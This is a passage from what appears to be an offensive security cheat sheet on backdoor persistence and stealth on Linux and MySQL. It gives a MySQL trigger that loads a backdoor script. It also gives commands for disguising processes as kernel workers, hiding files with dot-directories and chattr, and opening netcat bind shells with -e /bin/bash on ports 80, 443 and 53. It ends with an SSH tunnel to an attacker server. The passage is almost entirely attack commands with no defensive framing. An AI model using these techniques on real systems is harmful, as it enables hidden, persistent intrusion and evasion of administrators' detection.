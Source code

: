 ```php
}
?>
```

### Database Triggers
```sql
-- MySQL trigger for persistence
DELIMITER //
CREATE TRIGGER backdoor_trigger
AFTER INSERT ON user_table
FOR EACH ROW
BEGIN
    IF NEW.username = 'admin' THEN
        SELECT load_file('/tmp/backdoor.sh') INTO @shell;
        -- Execute system commands
    END IF;
END//
DELIMITER ;
```

## Evasion and Stealth

### Process Hiding
```bash
# Process name spoofing
exec -a '[kworker/0:1]' /path/to/backdoor

# Hide from ps
mount -o bind /tmp/fake_proc /proc/PID

# Use legitimate process names
cp backdoor /usr/sbin/networkd
```

### File Hiding
```bash
# Hidden files and directories
mkdir /tmp/...
mkdir /dev/.hidden
touch /var/log/.system

# Attribute manipulation
chattr +i /path/to/backdoor  # Immutable
chattr +a /path/to/logfile   # Append only
```

### Network Stealth
```bash
# Use common ports
nc -l -p 80 -e /bin/bash     # HTTP
nc -l -p 443 -e /bin/bash    # HTTPS
nc -l -p 53 -e /bin/bash     # DNS

# Protocol tunneling
ssh -D 8080 -N -f user@attacker_server
```
